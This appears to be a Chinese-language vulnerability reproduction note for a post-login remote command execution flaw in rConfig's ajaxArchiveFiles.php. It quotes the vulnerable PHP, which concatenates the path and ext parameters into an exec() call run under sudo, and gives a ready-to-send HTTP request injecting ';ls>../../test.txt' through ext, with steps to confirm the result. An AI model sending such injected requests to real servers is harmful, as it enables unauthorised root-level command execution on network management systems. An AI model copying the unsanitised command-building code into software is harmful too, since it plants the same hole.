

# rConfig ajaxArchiveFiles.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxArchiveFiles.php文件中由于对path参数和ext参数进行命令拼接，导致攻击者可以远程命令执行获取服务器权限

## 漏洞影响

<a-checkbox checked>rConfig</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="rConfig"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件

`/home/rconfig/www/lib/ajaxHandlers/ajaxArchiveFiles.php`

```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/config/functions.inc.php");
$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//archive logs files
    $mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
    foreach (glob($fullpath) as $v) {
        unlink($v);
    }

    $fileCount = count(glob($mainPath . $ext));

    if ($fileCount > 0) {
        $response = json_encode(array(
            'failure' => true
        ));
    } else {
        $response = json_encode(array(
            'success' => true
        ));
    }
    echo $response;
}  // end session check
```


关键代码如下


```php
$mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
```

`ext参数` 用户可控

```php
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
```


没有使用过滤直接拼接命令，导致命令执行，并因为sudo而root权限执行，由于是后台漏洞所以需要登录，配合任意用户创建可以RCE


请求包为


```plain
GET /lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;ls%3E../../test.txt HTTP/1.1
Host: 
Cookie: cookname=testtest; cookid=a13be657db5e18e453c66c564467b0f2; PHPSESSID=lr7j5r2beat1eprpklrhiorq71
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 2
```


再请求 /test.txt 验证漏洞


